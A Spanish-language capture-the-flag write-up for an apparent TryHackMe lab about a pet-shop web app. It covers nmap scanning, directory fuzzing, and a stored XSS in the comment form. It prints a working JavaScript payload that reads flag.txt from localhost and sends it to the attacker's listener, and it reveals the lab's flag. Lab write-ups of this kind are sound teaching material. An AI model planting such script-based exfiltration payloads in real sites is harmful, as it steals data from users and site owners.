










<p align="center">
    
</p>


Su tienda de pegasmas local finalmente ha desarrollado su propia página web. No tienen demasiada experiencia con respecto al desarrollo web, por lo que decidieron desarrollar y alojar todo en el mismo ordenador que utilizan para navegar por Internet y mirar la retroalimentación de los clientes. Smart movimiento.


*IP victima -> 10.10.218.241*

---

## Reconocimiento

Compruebo si tengo conexión con la máquina  y está activa
```
ping -c 1 10.10.218.241
```

<p align="center">
    
</p>

Tenemos conexión y su *TTL->63* me indica que puede ser una máquina con un sistema operativo **LINUX**.


---

## Enumeración
### Escaneo de puertos
- Primero hago un reconocimiento de puertos silencioso de los puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.218.241
```

<p align="center">
    
</p>

**Resultados del escaneo:**

| Puerto   | Estado | Servicio   |
| -------- | ------ | ---------- |
| 22/tcp   | open   | ssh        |
| 8080/tcp | open   | http-proxy |


Realizamos un segundo escaneo al puerto abierto, lanzando una serie de script por defecto de `nmap` y reconocimiento de servicios.
```
nmap -p22,8080 -sVC --min-rate 5000 -n -Pn 10.10.218.241
```

<p align="center">
    
</p>


| Puerto | Estado | Servicio | Versión                                 |
| ------ | ------ | -------- | --------------------------------------- |
| 22/tcp | open   | ssh      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.9         |
| 80/tcp | open   | http     | http-proxy Werkzeug/3.0.1 Python/3.8.10 |


---


<h3><center> Análisis del servidor web HTTP-PROXY (puerto 8080)</center></h3>

Al introducir la IP como la dirección URL, la web nos muestra lo siguiente:
<p align="center">
    
</p>


Es una tienda de gatos. Con la herramienta `nmap` lanzamos un `script` para ver si podemos enumerar vulnerabilidades.
```
nmap -p8080 --script vuln 10.10.218.241  
```

<p align="center">
    
</p>


No nos encuentra nada, por lo que lanzamos otro script de `nmap`.
```
nmap -p8080 --script http-enum 10.10.218.241
```

<p align="center">
    
</p>


#### Fuzzing Web

**dirb**
Tampoco me encuentra nada. Por lo que realizo `FUZZING WEB`. Primero utilizo la herramienta `dirb`
```
dirb http://10.10.218.241:8080
```

<p align="center">
    
</p>

No encontró nada, así que analizamos posibles rutas, directorios o ficheros que puedan contener la aplicación web con la herramienta `gobuster`.
```
gobuster dir -u http://10.10.218.241:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,bak,py,sh
```

![[Pasted image 20250102193814.png]]

Me encuentra el fichero `flag`, por lo que para leerlo en la URL podemos la dirección `http://10.10.218.241:8080/flag.txt`
<p align="center">
    
</p>

Pero no estamos autorizados.  En la aplicación web tenemos una página de comentarios, donde podemos escribir en un `textarea`, esto me hace pensar que podemos estar ante un `XSS`. Para probarlo, me levanto un servidor en mi máquina atacante e introduzco en el campo de comentarios el siguiente script
```
python3 -m http.server 8000
```

<p align="center">
    
</p>

```
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    fetch('http://10.21.76.251:8000/?data=' + encodeURIComponent(data))
  })
</script>
```
![[Pasted image 20250102200249.png]]


Si le damos al botón `Submit` y vemos el servidor que no levantamos con python podemos ver que está haciendo la petición al servidor web leyendo el fichero `flag.txt` y guardando el contenido en el parámetro `data`.

<p align="center">
    
</p>


Vemos que es la `flag` pero codificada para navegadores, podemos decodificar la URL
```
echo "THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D" | sed 's/%7B/{/g; s/%7D/}/g'
```

<p align="center">
    
</p>

Y obtenemos la flag.

